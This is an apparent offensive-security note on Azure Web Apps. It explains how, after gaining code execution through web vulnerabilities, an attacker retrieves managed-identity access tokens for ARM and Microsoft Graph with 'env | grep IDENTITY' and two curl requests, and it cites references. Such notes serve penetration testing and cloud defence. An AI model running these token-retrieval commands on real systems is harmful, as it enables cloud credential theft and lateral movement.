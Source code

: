 ```yaml
---
title: Web App
---
```


[[notes/azure/index]] Web Apps also known as App Service publish Linux or Windows containers over HTTP(S).

Gain code execution trough classic web vulnerabilities like insecure file upload or take control over the source code repository.
The app can have a managed identity assigned that might have interesting permissions on other Azure resources.

Use code execution in an exploited web app to check if it has a managed identity assigned and retrieve access tokens for ARM and MS Graph.

~~~ bash
env | grep IDENTITY
curl -sSf "$IDENTITY_ENDPOINT" -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" -G -d api-version=2019-08-01 -d resource=https://management.azure.com
curl -sSf "$IDENTITY_ENDPOINT" -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" -G -d api-version=2019-08-01 -d resource=https://graph.microsoft.com
~~~

With this access tokens you can enumerate [[notes/azure/index]] resources and [[notes/m365/index]] access.

References:

- [twitter.com/_wald0/status/1626260031871291396](https://twitter.com/_wald0/status/1626260031871291396), principal with Owner, Contributor or Website Contributor role can execute commands on the OS under the web app and therefore take over its managed identity
- [Abusing Azure App Service Managed Identity Assignments](http://web.archive.org/web/20230216074544/https://scribe.rip/@specterops/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)
